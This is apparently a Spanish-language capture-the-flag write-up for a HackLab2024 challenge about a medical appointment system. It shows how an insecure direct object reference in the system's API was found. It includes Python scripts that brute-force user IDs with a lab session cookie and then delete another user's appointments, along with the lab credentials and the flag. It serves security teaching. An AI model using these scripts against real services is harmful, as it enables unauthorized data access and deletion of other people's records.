






# M1st1fy 

Este documento fue confeccionado por [`M1st1fy`](https://github.com/m1st1fy), un equipo concebido para la realización de CTFs :-)
> Nota: Pueden encontrar los otros documentos del HackLab2024 [aqui](https://github.com/M1st1fy/HackLab2024)
## Integrantes

- Agustín M. Blanco
- Tomás N. Raspa
## Índice

1. Turnero
	1. Primera aproximación
	2. Observando en profundidad
	3. El ataque


---
## Turnero

>Al acceder al sistema, verás tus próximos turnos médicos. Tu compañero Fer también necesita un turno, pero el usuario `xdalvik` ha reservado demasiados turnos de manera intencionada para incomodar a los demás.
>¿Podrías eliminar todos los turnos de "xdalvik" sin afectar los turnos del resto de los usuarios?
>Usuario: `luis`
>Clave: `Luis.4321`


### Primera aproximación

Al ingresar al sistema, tal y como nos fue anticipado por el enunciado, nos encontramos con una pantalla de inicio de sesión para lo que parecería ser un turnero:



Al ingresar con las credenciales de Luis que nos fueron provistas, obtenemos un panel con su listado de turnos:


Jugando un poco con el sistema vemos que a priori lo único que parecería permitir es cerrar la sesión o cancelar un turno. Veamos ahora cómo está interactuando realmente nuestro navegador con el sistema...

### Observando en profundidad

Ayudándonos de las [herramientas de desarrollador](https://developer.chrome.com/docs/devtools?hl=es-419) de nuestro navegador, podemos ver las peticiones que se están haciendo al servidor junto con las respuestas que éste nos provee. 

Al cargar la página con estas herramientas observamos que realmente se está construyendo en dos pasos. Primero se obtiene la estructura, y luego se obtiene la información a traves de una API


Al observar con mayor detenimiento la segunda petición vemos que se trata de un [GET](https://developer.mozilla.org/es/docs/Web/HTTP/Methods/GET) a  `api/1/appointments/` que devuelve un [JSON](https://es.wikipedia.org/wiki/JSON) con la información sobre los turnos:
```json
[
    {
        "clinic": "Cl\u00ednica del Sol",
        "date": "2024-10-22T21:41:25.683923",
        "id": 1,
        "specialist": "Dr. Alvarez",
        "user": "luis",
        "user_id": 1
    },
    {
        "clinic": "Hospital N\u00b02",
        "date": "2024-10-25T04:41:25.684032",
        "id": 2,
        "specialist": "Dra. Gonzales",
        "user": "luis",
        "user_id": 1
    },
    {
        "clinic": "Cl\u00ednica privada",
        "date": "2024-10-22T22:41:25.684079",
        "id": 3,
        "specialist": "Lic. Lopez",
        "user": "luis",
        "user_id": 1
    },
    {
        "clinic": "Punilla",
        "date": "2024-10-23T22:41:25.684119",
        "id": 4,
        "specialist": "Dr. Lange",
        "user": "luis",
        "user_id": 1
    },
    {
        "clinic": "Hospital N\u00b0 14",
        "date": "2024-10-25T02:41:25.684158",
        "id": 5,
        "specialist": "Dra. Farias",
        "user": "luis",
        "user_id": 1
    }
]
```

Si miramos la información contenida en la respuesta, todos los turnos devueltos pertenecen al `user_id` 1, y, coincidentemente, la petición que habíamos hecho, la palabra `appointments` estaba precedida por un 1. Esto nos lleva hacer la siguiente suposición:
>El [endpoint](https://www.cloudflare.com/es-es/learning/security/api/what-is-api-endpoint/) de la API probablemente sea `/api/:user_id/appointments/`, siendo `:user_id` el `id` del usuario que del que se desea obtener la lista de turnos 

Prestemos ahora atención al comportamiento del sistema cuando se desea cancelar un turno.
Al presionar `Cancelar` recibimos un [prompt] (https://developer.mozilla.org/en-US/docs/Web/API/Window/prompt) consultando si estamos seguros. 


Al aceptar, vemos que la página se recarga y, si miramos nuevamente las herramientas de desarrollador, vemos que se ejecutaron dos peticiones


La segunda petición es identica a todas las anteriores, obtiene el listado de turnos del usuario. Sin embargo, la primera es diferente. Se trata de un [DELETE](https://developer.mozilla.org/es/docs/Web/HTTP/Methods/DELETE) al endpoint `/api/appointments/2` cuya respuesta fue el siguiente JSON: 
```json
{"message":"Turno eliminado correctamente"}
```

Observando el formato de la request, si lo extrapolamos con los datos que conocíamos de la respuesta al endpoint `/api/:user_id/appointments/` podemos sacar la siguiente conclusión:

>El [endpoint](https://www.cloudflare.com/es-es/learning/security/api/what-is-api-endpoint/) de la API para cancelar turnos es `/api/appointments/:id_turno`, siendo `:id_turno` el `id` del turno que se desea cancelar

Teniendo toda esta información, veamos ahora cómo podemos hacer para cancelarle los turnos a `xdalvik`:)

### El ataque

Nuestro objetivo es cancelarle los turnos a `xdalvik` sin afectar a los demás usuarios. Sin embargo, para poder cancelar un turno, primero necesitamos su `id`. Para lograr esto, con la información obtenida anteriormente y un poco de pensamiento lateral, llegamos a la siguiente estrategia. Podemos utilizar el endpoint `/api/:id_usuario/appointments/` y un poco de fuerza bruta para encontrar el `id` del usuario correxpondiente a `xdalvik`.

```python
from concurrent.futures import ThreadPoolExecutor
import requests

URL_BASE = "https://chl-53dca137-13ed-4b13-985d-97022b8f9e1e-turnero.softwareseguro.com.ar"
COOKIE_SESION = ".eJwlzj0KwzAMQOG7eO5gWX9WLhNkS6Zdk2YqvXsDnR8Pvk_Z15Hns2zv48pH2V9RtsIWi10kJwGad1VnBBzSZARSOEML8MlVogGZqUrYDOqVxSfMtQwFbak4EfX0hW0Ov6_q7hm96yAOTWNlqtAQZ1YGiztyLzfkOvP4a6B8f59wLxE.Zxbteg.qbb_2MLfNpQ_oCHUQzmbH2F8IKI"


def probarId(id):
    res = requests.get(f"{URL_BASE}/api/{id}/appointments", cookies={'session':COOKIE_SESION})
    datos = res.json()

    if datos != []:
        print(f"[X] Usuario encontrado! Usuario: [{datos[0]['user']}]. Id: [{datos[0]['user_id']}]")

if __name__ == '__main__':
    lista = [x for x in range(0,500)]
    with ThreadPoolExecutor(max_workers=100) as executor:
        executor.map(probarId, lista)
```

>Nota: Las constantes `BASE_URL` y `COOKIE_SESION` deben ser adaptadas por ustedes para la instancia del laboratorio que estén ejecutando

 Al ejecutar el script obtenemos el siguiente resultado:
 ```
[X] Usuario encontrado! Usuario: [luis]. Id: [1]
[X] Usuario encontrado! Usuario: [analia]. Id: [49]
[X] Usuario encontrado! Usuario: [xdalvik]. Id: [101]
```

Genial! Encontramos el `id` de `xdalvik`! Ahora solo nos falta eliminar sus turnos. Para ello, aprovechando el otro endpoint que habíamos descubierto, podemos armar otro script que elimine todos sus turnos.

```python
import requests

URL_BASE = "https://chl-53dca137-13ed-4b13-985d-97022b8f9e1e-turnero.softwareseguro.com.ar"
COOKIE_SESION = ".eJwlzj0KwzAMQOG7eO5gWX9WLhNkS6Zdk2YqvXsDnR8Pvk_Z15Hns2zv48pH2V9RtsIWi10kJwGad1VnBBzSZARSOEML8MlVogGZqUrYDOqVxSfMtQwFbak4EfX0hW0Ov6_q7hm96yAOTWNlqtAQZ1YGiztyLzfkOvP4a6B8f59wLxE.Zxbteg.qbb_2MLfNpQ_oCHUQzmbH2F8IKI"

def obtenerTurnos(idUsuario):
    res = requests.get(f"{URL_BASE}/api/{idUsuario}/appointments/", cookies={'session':COOKIE_SESION})
	return res.json()

def eliminarTurno(id):
    requests.delete(f"{URL_BASE}/api/appointments/{id}/", cookies={'session':COOKIE_SESION})

if __name__ == '__main__':
    turnosXdalvik = obtenerTurnos(101)
    for turno in turnosXdalvik:
        eliminarTurno(turno["id"])
```
>Nota: Las constantes `BASE_URL` y `COOKIE_SESION` deben ser adaptadas por ustedes para la instancia del laboratorio que estén ejecutando

Luego de ejecutar este último script, si recargamos la página en el navegador veremos que hemos obtenido la flag!


>Flag: `d27fa3f8fc14ea101603d09436e28bf6`
